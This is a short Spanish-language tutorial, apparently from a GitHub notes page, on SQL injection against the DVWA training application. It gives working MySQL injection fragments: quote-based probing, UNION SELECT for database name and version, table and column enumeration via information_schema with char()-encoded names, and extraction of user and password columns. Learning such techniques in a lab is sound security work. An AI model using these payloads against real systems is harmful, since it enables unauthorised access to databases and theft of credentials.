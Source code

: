 # SQL Injection en DVWA

Una **aproximación a la query** suele ser:

```SQL
SELECT * FROM <x> WHERE <y>=___ ;
```

o

```SQL
SELECT * FROM <x> WHERE <y> LIKE '%_____%';
```

## MySQL database

Una manera de conocer si la DB es **vulnerable**, es poniendo en la query un `'`. Si vemos que la DB devuelve algún error, eso puede ser indicio de que es vulnerable.

Es **importante** que, para que la query sea correcta sintácticamente, añadamos al principio un `'` y al final de la sentencia `--+`.

Podemos conocer el **nombre y versión** de la DB añadiendo a la query

```SQL
UNION SELECT database(), version()
```

Para obtener **[todas las tablas](https://dev.mysql.com/doc/refman/8.0/en/tables-table.html)** de la DB, se puede hacer añadiendo la consulta:

```SQL
SELECT table_name FROM information_schema.tables
```

Si queremos ver **todas las columnas de una tabla**, podemos hacerlo con la siguiente query:

```SQL
SELECT column_name FROM information_schema.columns
WHERE table_name=char(117,115,101,114,115)
```

En el ejemplo anterior, se intenta buscar todas las columnas de la tabla _users_, pero en la query no se puede poner tal cual _users_, si no que se ha de [pasar a decimal](https://cryptii.com/pipes/text-decimal). (_users en decimal es 117 115 101 114 115_)

Si deseamos obtener datos de alguna columna concreta (en este caso intentaremos obtener _user_ y _password_), deberemos añadir lo siguiente a la query:

```SQL
SELECT user, password FROM users
```

## Enlaces de interes
[SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
